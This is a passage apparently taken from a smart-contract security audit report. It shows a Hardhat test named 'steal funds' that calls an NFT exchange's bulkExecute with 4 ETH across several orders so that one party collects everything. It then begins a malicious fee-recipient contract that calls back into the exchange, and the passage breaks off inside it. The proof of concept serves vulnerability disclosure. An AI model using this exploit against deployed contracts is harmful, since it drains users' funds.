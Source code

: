 ```
          side: Side.Buy,
          tokenId,
          paymentToken: ZERO_ADDRESS});
        _executions.push({
            sell: await sell.packNoOracleSig(),
            buy: await buy.packNoSigs(),
        });
        // create 3 more executions
        tokenId += 1;
        for (let i = tokenId; i < tokenId + 3; i++) {
          await mockERC721.mint(thirdParty.address, i);
          const _sell = generateOrder(thirdParty, {
            side: Side.Sell,
            tokenId: i,
            paymentToken: ZERO_ADDRESS,
          });
          const _buy = generateOrder(bob, {
            side: Side.Buy,
            tokenId: i,
            paymentToken: ZERO_ADDRESS,
          });
          _executions.push({
            sell: await _sell.packNoOracleSig(),
            buy: await _buy.packNoSigs(),
          });
        }
        executions = _executions;
      });
      it("steal funds", async () => {
        let aliceBalanceBefore = await alice.getBalance();
        //price = 4 ETH
        value = price.mul(4);
        //call bulkExecute
        tx = await waitForTx(
          exchange.connect(bob).bulkExecute(executions, { value  }));
        let aliceBalanceAfter = await alice.getBalance();
        let aliceEarned = aliceBalanceAfter.sub(aliceBalanceBefore);
        //check that alice received all 4 ETH
        expect(aliceEarned).to.equal(value);
      });
    });
```

Add the following contract to mocks folder:
`MockFeeRecipient.sol`:
```
pragma solidity 0.8.17;

import { Exchange } from "../Exchange.sol";
import { Execution } from "../lib/OrderStructs.sol";

contract MockFeeReceipient {

    bool lock;
    address _seller;
    uint256 _price;

    constructor(address seller, uint256 price) {
        _seller = seller;
        _price = price;
    }
    receive() external payable {
        Exchange ex = Exchange(msg.sender);
        if(!lock){
```
